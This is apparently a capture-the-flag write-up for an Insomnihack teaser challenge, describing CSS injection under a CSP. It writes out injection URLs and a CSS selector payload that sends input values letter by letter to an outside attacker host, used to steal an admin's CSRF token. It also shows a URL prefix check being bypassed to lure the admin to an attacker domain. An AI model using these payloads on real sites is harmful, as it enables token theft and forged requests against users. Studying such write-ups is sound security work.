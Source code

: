 To wrap up what we already have:

- CSP allows to load styles from the same domain
- We can echo any input we want on the page
- We can inject html tags
- CSP allows to load images from external server

This leads us to the first piece of the puzzle - we can inject html tag `<link rel="stylesheet" href="something"/>` tag in order to load css of our choosing.
The `something` has to be a link to the page which echos our payload, for example: 

`http:\\css.teaser.insomnihack.ch\index.php?search=%0a%7B%7D%20body%20%7B%20background-color%3A%20lightblue%3B%20%7D%0a&page=search&.css` 

which prints out `Search results for : {} body { background-color: lightblue; }`

Chaining the two in the form of: `http://css.teaser.insomnihack.ch/index.php?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22http%3A%5C%5Ccss.teaser.insomnihack.ch%5Cindex.php%3Fsearch%3D%250a%257B%257D%2520body%2520%257B%2520background-color%253A%2520lightblue%253B%2520%257D%250a%26page%3Dsearch%26.css`

Shows us a nice blue page, as expected.

We can now use CSS selectors to exflitrate data from the page! 
By creating style with entries in the form:

`input[value^="a" i]{background: url('http://url.we.own/a')`

We can listen for hits on the provided url, and this way we can check if the first letter of `value` attribute of `input` tags on the page is `a`.

There are some issues here:

- The only thing we can really `steal` is CSRF token.
- We can steal data only letter-by-letter. We need to steal first letter in order to prepare new CSS selectors for the second letter.
- It seems the token changes every time we send link to the admin, so we would need to extract the whole token in one go.
- Even if we get the CSRF token, we still can't run any JS, so we can't send any POST request as admin.

Initially we thought that only links to the page `http://css.teaser.insomnihack.ch` can be sent to admin, but it turned out that it was not the case.
In reality there was only a check for the `prefix` of URL, not a real domain check.
This means we could register `http://css.teaser.insomnihack.ch.our.cool.domain` and admin would visit this link just fine.

This solves the issue with sending a POST request, since we can now lure admin into our own page and send request from there.
It also solves the issue of stealing whole CSRF token, because we can now dynamically generate iframes with CSS selectors for consecutive letters.
We create iframe with selectors for first letter, grab the matching letter from our `backend` (listening for hits from CSS), and create another iframe with selectors for two letters using known prefix etc.
Once we have full token we can finally send a POST a admin.

- We were using domain `http://css.teaser.insomnihack.ch.nazywam.p4.team`.
- Endpoint `http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token` was simply blocking until a hit from CSS was done, and then it would return the matching letter.
